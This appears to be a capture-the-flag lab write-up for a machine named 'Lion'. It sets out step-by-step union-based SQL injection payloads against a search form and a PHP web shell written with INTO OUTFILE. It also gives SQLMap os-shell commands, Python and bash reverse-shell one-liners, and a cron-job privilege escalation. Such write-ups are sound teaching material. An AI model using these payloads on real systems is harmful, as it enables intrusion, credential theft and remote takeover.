# Lion


## Recon
During the recon phase using Nmap and Feroxbuster, we found a few interesting things, such as an endpoint `/admine/includes` that contains some information, but we didn’t find anything suspicious. The Nmap scan didn’t reveal anything unusual either. There is a database and an RPC service open, but nothing significant was discovered.
<br>



Looking at the `/index.php` directory, we notice a search field that sends a POST request to `search.php` (the parameter used is `searchtitle`, as seen in the form). By attempting an SQL injection query, we can retrieve the first flag.


## Exploitation
This is an SQLi vulnerability. Therefore, we can exploit it either manually or by using SQLMap. Since my focus is on manual exploitation, I will only provide a few steps for using SQLMap. For manual exploitation, we’ll first attempt to determine the number of columns using the following query: `' order by 7 #`

After the `ORDER BY 8`, we get no results, so there are 7 columns. This indicates a union-based SQL injection. To retrieve some information, we will run the following queries:
* Query to retrieve the current database name `' union select 1,database(),3,4,5,6,7 #`. The database name is: news.
* In the following query `' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'news' #`, we can retrieve the tables from the database. The following tables are present: `tbladmin`, `tblcategory`, `tblcomments`, `tblpages`, `tblposts`, `tblsubcategory`. Since we have an `/admin` endpoint, we can check if we can obtain the admin password.
* For get others columns, we have `' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' #`. We have the following columns: `AdminUserName` and `AdminPassword`.
* We will retrieve the results from both columns using the follow query `' union select 1,AdminUserName,3,4,5,6,7 from tbladmin; #` and `' union select 1,AdminPassword,3,4,5,6,7 from tbladmin; #`.

We have the following user/password: `admin:$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b`.
I ran it through Hash Identifier, and it’s bcrypt. I tried cracking it with Hashcat, but it didn’t work. So, let's attempt to place a shell in the `includes` directory instead.
`' union select 1,<?php system($_GET['cmd']);?>,3,4,5,6,7 into outfile "/var/www/html/includes/x.php #`


Alright, we have a PHP shell. However, to save time, I’ll list the SQLMap commands below. Using SQLMap, we can run: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste"`


Listing the databases and the current database: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --dbs --hex` and `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --current-db --hex`

As we observed manually, the admin password is hashed. Therefore, to upload a shell via SQLMap, we can use the following parameter: `--os-shell`. This option allows SQLMap to attempt to spawn an operating system shell on the target system if the SQL injection is successful.

`python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --os-shell`

Now, we can get shell and reverse shell with python.



```bash
export RHOST="IP";export RPORT=PORTA;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

## Post Exploitation
I ran `linpeas` to find potential vectors for privilege escalation. We found a `.sh` file (with misconfigured permissions) that is set to run as root in a cron job. This seems to be the likely path, but let’s examine the rest of the system to be sure.




There appears to be a logrotate version 3.8.6, which may be vulnerable. If our attempt with the cron job doesn’t work, we can try exploiting the logrotate vulnerability as an alternative.


Going back to the cron job, since we have write permissions on the file, we can modify it and apply the payload. After making the changes, we just need to wait for the cron job to execute and gain privilege escalation.

`/bin/bash -c 'sh -i >& /dev/tcp/ip/porta 0>&1'`

